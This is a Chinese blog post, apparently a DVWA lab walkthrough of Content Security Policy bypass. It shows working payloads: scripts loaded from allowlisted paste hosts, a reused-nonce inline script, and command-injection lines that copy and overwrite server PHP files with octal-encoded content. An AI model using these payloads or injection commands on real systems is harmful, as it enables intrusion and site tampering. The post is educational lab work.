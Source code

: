 ```yaml
---
title: DVWA上手记录-CSP BYPASS
slug: get-start-dvwa-12
date: 2022-04-29
categories:
- security
tags:
- security
- dvwa
---
```


## 前言

终于，DVWA快要打通关了。OWASP 2021 的 Top 10 里已经看不到 CSP 了。可能是合并到了 Injection 里，XSS也合并到 Injection 里了。一个 Injection 总结各种注入还是挺精辟的。

直接开干吧。

## 原理

CSP 是 *Content Security Policy* ，一种降低 XSS 攻击面的技术。简单概括下就是一种同源策略的扩展，用以约束 `<script src="..."`、`<img src="..."` 这样的外部来源。

比如说，设置 `Content-Security-Policy: script-src 'self'` 就会约束脚本`src`必须和当前页面同源。

`Content-Security-Policy` 支持的策略非常多，懒得一一列举了，常见的有 `default-src` 、`script-src` 这些。

## 解题

### Low：收集信息

![image-20220429091729687](image-20220429091729687.png)

看介绍，直接填一个脚本链接，脚本会被包含进这个页面。尝试启动一个 http 服务器然后填入。

![image-20220429091905350](image-20220429091905350.png)

```
Refused to load the script 'http://172.17.0.1:8000/1.js' because it violates the following Content Security Policy directive: "script-src 'self' https://pastebin.com hastebin.com www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback.
```

设置了`script-src`策略，注意到策略里允许了 `pastebin`、`hastebin`、`toptal` 这些网站。

### Low：解题

在 `hastebin.com` 写一句 `alert(1)` ，保存并取纯文本链接，然后贴到这里。

![image-20220429092314962](image-20220429092314962.png)

成功。

### Medium：收集信息

![image-20220429092433248](image-20220429092433248.png)

提示不管写什么都会直接丢到这里，看你能不能弹出个`alert`。

尝试写一个`<script>alert(1)</script>`，发现出错：

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='". Note that 'unsafe-inline' is ignored if either a hash or nonce value is present in the source list.
```

提示CSP禁止了inline脚本，但后面备注`unsafe-inline`会在源列表里有`hash`和`nonce`的情况下忽略。

### Medium：解题

尝试在 payload 上加上 `nonce`：`<script nonce>alert(1)</script>`，错误不变。

加上 `src`，随便选一个真实存在的 js：`<script src="/dvwa/js/dvwaPage.js" nonce>alert(1)</script>`，错误消失。但脚本没有执行。无奈看了下帮助，提示注意 CSP 的 `nonce` 策略。于是翻了下请求历史，发现 `nonce` 不变。

于是修改 payload，`nonce` 设置为固定值：`<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>`

![image-20220429093610302](image-20220429093610302.png)

需要注意的是 `nonce-` 这个前缀不用放到 `script` 标签的 `nonce` 里。

### High：收集信息

![image-20220429093750904](image-20220429093750904.png)

点击`Solve the sum`后：

![image-20220429093808724](image-20220429093808724.png)

提示是修改指定的页面来运行自己的代码，怪。这要怎么做？没思路了，看一眼帮助，并没有帮助。

这一次的 `Content-Security-Policy`是`script-src 'self'`，点击`Solve the sum`产生请求`jsonp.php?callback=solveSum`。返回结果是一个 js 脚本。审阅代码没有包含 `jsonp.php` 的内容。

好吧。先试试请求 `jsonp.php`，改一下`callback`参数，请求`http://localhost:8080/vulnerabilities/csp/source/jsonp.php?alert`。结果返回一个空页面，没有js。所以提示还是对的，只能改`jsonp.php`文件完成High难度。

改法可以很简单=。=我们先拿命令注入提取出`jsonp.php`文件，方便下载。

```
n|cp /var/www/html/vulnerabilities/csp/source/jsonp.php /var/www/html/jsonp.txt
```

然后访问`/jsonp.txt`拿到内容：

```php
<?php
header("Content-Type: application/json; charset=UTF-8");

if (array_key_exists ("callback", $_GET)) {
	$callback = $_GET['callback'];
} else {
	return "";
}

$outp = array ("answer" => "15");

echo $callback . "(".json_encode($outp).")";
?>
```

emm，没什么特别的，接着看下前端怎么处理 `jsonp.php` 返回的内容。

```js
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}

function solveSum(obj) {
    if ("answer" in obj) {
        document.getElementById("answer").innerHTML = obj['answer'];
    }
}

var solve_button = document.getElementById ("solve");

if (solve_button) {
    solve_button.addEventListener("click", function() {
        clickButton();
    });
}
```

重点来了：

```js
var s = document.createElement("script");
s.src = "source/jsonp.php?callback=solveSum";
document.body.appendChild(s);
```

直接把 `jsonp.php` 返回的内容当成了 `script` 标签的内容，也就是在 `jsonp.php` 返回随便什么东西前端都会执行。

那下一步就容易了，利用命令注入漏洞注入一个新的 php 标签，并输出 `alert`。先写一个脚本把脚本编码成`printf` 接受的8进制转义。

```python
encoded = ''
payload = '<?php echo \'alert(1)\'; ?>'
for c in payload:
    if c in '()&|-$`;\'':
    	encoded += '\\0{:o}'.format(ord(c))
    else:
        encoded += c
```

得到结果之后，变形一下payload：`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>>/var/www/html/jsonp.txt`。执行后检查：

![image-20220429103150056](image-20220429103150056.png)

再真正注入到 `jsonp.php` 里。`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>>/var/www/html/vulnerabilities/csp/source/jsonp.php`，返回后发现有语法错误。

![image-20220429103315118](image-20220429103315118.png)

是我大意了=。=算了，直接覆盖掉 `jsonp.php` 完事。`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>/var/www/html/vulnerabilities/csp/source/jsonp.php`

![image-20220429103448845](image-20220429103448845.png)

成功。

## 总结

一定要总结的话就是确实有黑客思维这回事。题目并不是真的在考一个固定知识点，虽然是在CSP题，但真正的关键工作是在命令注入完成的，只是观察CSP这个页面的话是什么也干不成的，即使没有 CSP 干瞪着这个页面也干不成，就算有创建`script`标签设置内容的`js`也利用不到。

但抱怨还是有抱怨的。因为我通关DVWA的目的是学习=。=CSP的 High 难度选择用命令注入当突破口，对了解 CSP 本身就没啥用了，命令注入本身可以干的事情就远不止弄死一个 CSP 这么点=。=

总之，也行吧。多少对 CSP 有点了解了。



